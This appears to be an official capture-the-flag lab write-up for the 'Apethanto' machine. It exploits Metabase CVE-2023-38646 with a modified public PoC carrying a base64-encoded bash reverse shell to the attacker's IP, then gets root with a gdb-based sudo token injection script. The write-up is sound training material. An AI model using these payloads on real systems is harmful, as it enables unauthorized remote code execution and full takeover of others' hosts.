

        <font 
size="10">Apethanto</font>

 	13<sup>th</sup> Nov 2023 

​	Prepared By: Amra & C4rm3l0

​	Challenge Author(s): Amra & C4rm3l0

​	Difficulty: <font color=green>Easy</font>

​	Classification: Official


# Synopsis

Apethanto is an Easy Linux machine hosting a Metabase instance that is vulnerable to pre-authentication Remote Code Execution (RCE). By finding the exposed `setup-token`, the attacker leverages the vulnerability to obtain a reverse shell on the target. Once the attacker gets a shell on the remote machine as the user `metabase` he may notice that there is a cron that executes `sudo apt update` from a different TTY terminal. This means, that the user `metabase` has an active SUDO token. Since the user belongs to the `sudo` group, the attacker is able to steal the valid SUDO token in order to get `root` privileges.


# Enumeration

## Nmap

```bash
ports=$(nmap -p- --min-rate=1000  -T4 10.129.230.94 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.129.230.94
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp   open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://apethanto.htb/
|_http-server-header: nginx/1.18.0
3000/tcp open  http    Jetty 11.0.14
|_http-title: Metabase
|_http-server-header: Jetty(11.0.14)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The Nmap output, informs us that Nginx and SSH are the only available services listening on port 80 and 22 respectively. 

Moreover, Nmap got redirected to the hostname `apethanto.htb` when tried to visit the website on port 80. Let's edit our hosts file before we proceed.

```bash
echo "10.129.230.94 apethanto.htb" | sudo tee -a /etc/hosts
```

## Nginx - Port 80

Browsing to the discovered domain reveals the website of a research lab for Serum-XY.


The page appears mostly static, but hovering over the "For Doctors" hyperlink or inspecting the site's source code reveals a hyperlink to a `metabase` vHost, which we add to our `hosts` file.

```bash
echo "10.129.230.94 metabase.apethanto.htb" | sudo tee -a /etc/hosts
```

Browsing to the discovered vHost, we find a login prompt for the `Metabase` service, which is a data analytics and sharing tool.



With no credentials and nothing else to go by, we start researching recent vulnerabilities discovered in Metabase. A search for the keywords `metabase vulnerability cve` leads us to various [CVE repositories](https://www.cvedetails.com/vulnerability-list/vendor_id-19475/product_id-51231/Metabase-Metabase.html) that list an array of CVEs for the service. At the time of writing, the top result is [CVE-2023-38646](https://www.cvedetails.com/cve/CVE-2023-38646/), a pre-authentication RCE vulnerability, which comes with a high base score and a warning that a Public exploit exists. 


# Foothold

Searching for that particular CVE leads us to a [public PoC](https://github.com/kh4sh3i/CVE-2023-38646), which we clone to our attacking machine.

```bash
git clone https://github.com/kh4sh3i/CVE-2023-38646.git
```

The PoC is a Python script, which requires three parameters. 

```BASH
python3 CVE-2023-38646.py 

   _____   _____   ___ __ ___ ____   ____ ___   __ _ _   __
  / __\ \ / / __|_|_  )  \_  )__ /__|__ /( _ ) / /| | | / /
 | (__ \ V /| _|___/ / () / / |_ \___|_ \/ _ \/ _ \_  _/ _ \
  \___| \_/ |___| /___\__/___|___/  |___/\___/\___/ |_|\___/

By: kh4sh3i

usage: CVE-2023-38646.py [-h] -u URL -t TOKEN -c COLLABRATOR
CVE-2023-38646.py: error: the following arguments are required: -u/--url, -t/--token, -c/--collabrator
```

The first of which is the target's URL, which we have. The second is a token, and the last is the URL for `Burp`'s Collaborator, which we can replace by a Python web server. 

To obtain the token we research the vulnerability further, referring to resources such as this [blog](https://blog.calif.io/p/reproducing-cve-2023-38646-metabase). 

The token referred to in the PoC is the setup token used to initially configure `Metabase`. This token, among other information, can be fetched without authentication by sending a `GET` request to the `/api/session/properties` endpoint:

```bash 
curl http://metabase.apethanto.htb/api/session/properties | jq

<...SNIP...>
  "landing-page": "",
  "setup-token": "819139a8-1ce9-46f0-acf8-9b4fc0d1164b",
  "application-colors": {},
  "enable-audit-app?": false,
  "anon-tracking-enabled": false,
  "version-info-last-checked": null,
<...SNIP...>
```

Armed with the setup token, we now try to run the PoC against the target. We first start an HTTP server using python:

```bash
python3 -m http.server 80 
```

Then, we run the PoC; we make sure to specify our attacking machine's IP as the parameter for the `-c` flag: 

```bash
python3 CVE-2023-38646.py -u http://metabase.apethanto.htb -t '819139a8-1ce9-46f0-acf8-9b4fc0d1164b' -c http://10.10.14.59

   _____   _____   ___ __ ___ ____   ____ ___   __ _ _   __
  / __\ \ / / __|_|_  )  \_  )__ /__|__ /( _ ) / /| | | / /
 | (__ \ V /| _|___/ / () / / |_ \___|_ \/ _ \/ _ \_  _/ _ \
  \___| \_/ |___| /___\__/___|___/  |___/\___/\___/ |_|\___/

By: kh4sh3i

Done! Check Burp Colabrator!!
```

A few seconds later, we get a callback on our HTTP server:

```bash
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.230.94 - - [13/Nov/2023 13:56:14] code 501, message Unsupported method ('POST')
10.129.230.94 - - [13/Nov/2023 13:56:14] "POST / HTTP/1.1" 501 -
```

This confirms that the Metabase instance is in fact vulnerable to RCE. We now have to modify the PoC slightly for us obtain a reverse shell.

First, we generate a base64-encoded reverse shell payload using [revshells](https://www.revshells.com). We then modify the script to decode our payload and pipe it to `bash` instead of running `curl`.

```bash
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjU5LzQ0NDQgMD4mMQ==|base64 -d|bash
```

Specifically, we place replace the parameter of the `SHELLEXEC` function:

```diff 
diff CVE-2023-38646.py rce.py

25c25
< payload={"details": {"details": {"advanced-options": True, "classname": "org.h2.Driver", "subname": "mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE ALIAS SHELLEXEC AS $$ void shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(new String[]{\"sh\", \"-c\", cmd})\\;}$$\\;CALL SHELLEXEC('curl -d key=kh4sh3i " + args.collabrator +"');", "subprotocol": "h2"}, "engine": "postgres", "name": "x"}, "token": args.token}
---
> payload={"details": {"details": {"advanced-options": True, "classname": "org.h2.Driver", "subname": "mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE ALIAS SHELLEXEC AS $$ void shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(new String[]{\"sh\", \"-c\", cmd})\\;}$$\\;CALL SHELLEXEC('echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjU5LzQ0NDQgMD4mMQ==|base64 -d|bash');", "subprotocol": "h2"}, "engine": "postgres", "name": "x"}, "token": args.token}
```

We then start a `Netcat` listener on port `4444`:

```bash
nc -nlvp 4444
```

Finally, we run the updated script.

```bash
python3 rce.py -u http://metabase.apethanto.htb -t '819139a8-1ce9-46f0-acf8-9b4fc0d1164b' -c http://10.10.14.59
```

We instantly get a callback on our listener:

```bash
nc -nlvp 4444                                                    

listening on [any] 4444 ...
connect to [10.10.14.59] from (UNKNOWN) [10.129.230.94] 39360
bash: cannot set terminal process group (399): Inappropriate ioctl for device
bash: no job control in this shell
metabase@Apethanto:~$ whoami
whoami
metabase
```

We now have a shell as the `metabase` user. The user flag can be found at `/home/metabase/user.txt`.


# Privilege Escalation

Looking around the system as the `metabase` user, we can't find any valuable information that will help us to escalate our privileges except from the fact that our user belongs to the `sudo` group.

```bash
metabase@Apethanto:/tmp$ id

uid=998(metabase) gid=998(metabase) groups=998(metabase),27(sudo)
```

Unfortunately, we don't know the password for this user. We decide to upload and use [pspy](https://github.com/DominicBreuker/pspy) on the remote machine to check if there are any crons running on the remote machine. First of all, we download the `pspy64s` binary from the `Releases` page and set up a Python web server on our machine.

```bash
python3 -m http.server 80
```

Then, we download the file from the remote machine and make it executable.

```bash
cd /tmp
wget 10.10.14.59/pspy64s
chmod +x pspy64s
```

Finally, we execute `pspy64s` and monitor the output.

```bash
./pspy64s
```

After a short while we get the following output:

```bash
2023/11/13 07:22:33 CMD: UID=998  PID=3924   | -bash 
2023/11/13 07:22:33 CMD: UID=0    PID=3923   | sh -c /bin/stty sane < /dev/pts/1 
2023/11/13 07:22:33 CMD: UID=0    PID=3922   | /usr/bin/expect /root/interact.exp 
2023/11/13 07:22:33 CMD: UID=0    PID=3925   | 
2023/11/13 07:22:33 CMD: UID=998  PID=3926   | -bash 
2023/11/13 07:22:33 CMD: UID=998  PID=3927   | id -u 
2023/11/13 07:22:33 CMD: UID=998  PID=3928   | 
2023/11/13 07:22:33 CMD: UID=998  PID=3929   | sudo apt update 
2023/11/13 07:22:33 CMD: UID=0    PID=3930   | apt update 
```

It seems like our user is running `apt update` using `sudo`. If we check the output from `ps -e` we can see another TTY terminal in use.

```
5203 pts/2    00:00:00 sudo
5206 pts/2    00:00:00 bash
```

This means, that there is a process from our user with a valid `SUDO` token. Looking around the web, we can spot [this](https://github.com/nongiach/sudo_inject) project. We create a bash script file called `sudo.sh` in `/tmp` with the following contents. 

```bash
#!/bin/sh

# inject all shell belonging to the current user, our shell one :

# makes it so every terminal can sudo  
echo "Defaults !tty_tickets" > /tmp/payload
# makes it so sudo never times out
echo "Defaults timestamp_timeout=-1" >> /tmp/payload

for pid in $(pgrep '^(ash|ksh|csh|dash|bash|zsh|tcsh|sh)$' -u "$(id -u)" | grep -v "^$$\$")
do
        echo "Injecting process $pid -> "$(cat "/proc/$pid/comm")
	echo 'call system("echo | sudo -S cp /tmp/payload /etc/sudoers.d/win 2>&1")' \
		| gdb -q -n -p "$pid" >/dev/null 2>&1
done
rm /tmp/payload
sudo -i 
```

Then, we make it executable and we execute it.

```bash
chmod +x sudo.sh
./sudo.sh
```

> Note: If the script doesn't work first time it means that the SUDO token probably expired, wait 2 minutes for the CRON to execute again and re-try.

```bash
metabase@Apethanto:/tmp$ ./sudo.sh 

Injecting process 3146 -> bash
Injecting process 6843 -> bash
root@Apethanto:~# id
uid=0(root) gid=0(root) groups=0(root)
```

We can find the root flag at `/root/root.txt`. 